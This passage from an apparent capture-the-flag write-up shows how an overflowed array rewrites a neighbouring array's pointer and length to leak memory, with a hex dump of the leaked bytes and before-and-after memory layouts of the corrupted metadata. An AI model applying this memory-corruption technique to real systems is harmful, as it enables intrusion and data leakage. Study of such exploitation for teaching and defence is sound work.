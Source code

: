 Then read the second?

<pre>
<span class="Type">Hex</span>.print(get(s, <span class="Constant">0</span>))
</pre>

It's going to dump out whatever happened to be in memory! It's truncated to the length I set (10 bytes) multiplied by the element size (and INT_ARRAY has 4-byte elements) for a total length of 40 bytes:

<pre>
<span class="lnr">1 </span><span class="Statement">Length:</span> <span class="Constant">0x8</span> (<span class="Constant">8</span>)
<span class="lnr">2 </span><span class="Constant">0000</span>  2F <span class="Constant">68</span> 6F 6D <span class="Constant">65</span> 2F <span class="Constant">67</span> <span class="Constant">69</span> <span class="Constant">74</span> <span class="Constant">73</span> 6D <span class="Constant">73</span> <span class="Constant">67</span> 2F 6D <span class="Constant">73</span>   <span class="Statement">/</span><span class="Constant">home</span><span class="Statement">/gi</span>tsmsg/ms
<span class="lnr">3 </span><span class="Constant">0010</span>  <span class="Constant">67</span> <span class="Constant">73</span> 2F <span class="Constant">25</span> <span class="Constant">73</span> 2F <span class="Constant">25</span> <span class="Constant">30</span> <span class="Constant">38</span> <span class="Constant">78</span> <span class="Constant">25</span> <span class="Constant">30</span> <span class="Constant">38</span> <span class="Constant">78</span> <span class="Constant">00</span> <span class="Constant">00</span>   gs/<span class="Identifier">%s</span>/%08x%08x..
<span class="lnr">4 </span><span class="Constant">0020</span>  <span class="Constant">55</span> 6E <span class="Constant">62</span> <span class="Constant">72</span> <span class="Constant">65</span> <span class="Constant">61</span> 6B <span class="Constant">61</span>                           Unbreaka
</pre>

Going back to the memory layout we looked at before, we saw that the message-specific data (the pointer and the length) overwrote array1:

<pre>
------------------------------------------------------------------------------------------------------
|  array1    |                    array2 metadata......                                              |
------------------------------------------------------------------------------------------------------
|AAAAAAAAAAAA\x19\x04\x00\x00\x01\x00\x00\x00<span style="font-weight: bold">\x48\x28\x00\xb8\x02\x00\x00\x00</span>AAAAAAAAAAAAAAAAAAAAA...|
------------------------------------------------------------------------------------------------------
</pre>

But we modified array1 to change those values:

<pre>
------------------------------------------------------------------------------------------------------
|  array1    |                    array2 metadata......                                              |
------------------------------------------------------------------------------------------------------
|AAAAAAAAAAAA\x19\x04\x00\x00\x01\x00\x00\x00<span style="color: red">\x04\xec\xff\xb7\x0a\x00\x00\x00</span>AAAAAAAAAAAAAAAAAAAAA...|
------------------------------------------------------------------------------------------------------
</pre>
